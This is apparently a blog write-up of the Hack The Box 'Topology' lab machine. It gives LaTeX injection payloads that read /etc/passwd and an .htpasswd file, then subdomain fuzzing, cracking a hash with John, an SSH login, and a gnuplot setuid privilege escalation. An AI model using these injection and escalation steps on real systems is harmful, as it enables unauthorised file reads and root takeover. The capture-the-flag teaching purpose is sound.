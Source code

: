 ```yaml
---
title: 🧪 Topology - Hackthebox 
published: 2023-08-08
image: './HTB.gif'
description: Topology - Hackthebox 
tags: [Hackthebox, Box, Pentest]
category: Hackthebox
draft: false
---
```


# Creating Host

- `sudo vim etc/hosts/`
- add host as 10.10.11.217  topology.htb
- Link: http://topology.htb/


# Scanning

`nmap -A -sV 10.10.11.217`
![alt text](image.png)
## Home page
![alt text](image-1.png)

Found LaTeX Equation Generator but couldn’t redirect so adding this host name in `etc/hosts/` .

Had no idea about this website so searched Latex equation vulnerabilities and found [Formula/CSV/Doc/LaTeX Injection - HackTricks](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjxqeuszsyAAxVrzjgGHUAJC5EQFnoECA4QAQ&url=https%3A%2F%2Fbook.hacktricks.xyz%2Fpentesting-web%2Fformula-doc-latex-injection&usg=AOvVaw1n_NXF4m8WzMsGaABeQ7Vg&opi=89978449).

![alt text](image-2.png)
![alt text](image-3.png)

Now I wanted to read files from Latex code generator

command: `\input{/etc/passwd}`

:::note
 It's latex language issue , when I execute command its in "text" mode by adding $ it goes into "math mode" to calculate and execute equations.
:::

command: `$\input{/etc/passwd}$`

As we know /etc/passwd file is used **to keep track of every registered user that has access to a system.**

command: `$\lstinputlisting{/etc/passwd}$`

## Found LFI 
![alt text](image-4.png)

## Scanning for Subdomains
```
wfuzz -c --hc=404 --hw=545 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" http://topology.htb
```
![alt text](image-5.png)

Now, add `dev.topology.htb` and `stats.topology.htb` to `etc/hosts/`.

![alt text](image-6.png)
Now we need to bypass this authentication, as we have seen this domain is running on `Apache/2.4.41`.
![alt text](image-7.png)

[Bypass Apache/2.4.41 401 Unauthorized](https://www.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/)


Command: `$\lstinputlisting{/var/www/dev/.htpasswd}$`
![alt text](image-8.png)
Finally found a Hash as a `.PNG file`.

Hash: `vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`

## Hash Cracking using John

command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![alt text](image-9.png)
Output: `?:calculus20`

:::caution[Note]
As see in our initial Nmap scan we have few SSH ports open.
:::

### Connect to SSH

command: `ssh vdaisley@topology.htb`

password: `calculus20`

After connecting to the ssh port you get the user flag.

## Privilege Escaltion 

Gaining Root access
![alt text](image-10.png)

Nothing interesting found here, except a executable “pspy64”. 
:::important
💡 pspy is a command line tool designed **to snoop on processes without need for root permissions**.
:::
command: `./pspy64`

![alt text](image-11.png)

command: `/opt/gnuplot`

command: `ls`

Output: `ls: cannot open directory '.': Permission denied`

Create a file within gnuplot dir

command  bash-5.0$ `nano /opt/gnuplot/root.plt`

Reverse Shell - root.plt must contain `system “chmod u+s”`


command: `bash -p` 

```
-p  Turned on whenever the real and effective user ids do not match.
            Disables processing of the $ENV file and importing of shell
            functions.  Turning this option off causes the effective uid and
            gid to be set to the real uid and gid.
```

command: `whoami`   →  root

Obtained the root access. Now, move on to root dir.

There we have the root.txt.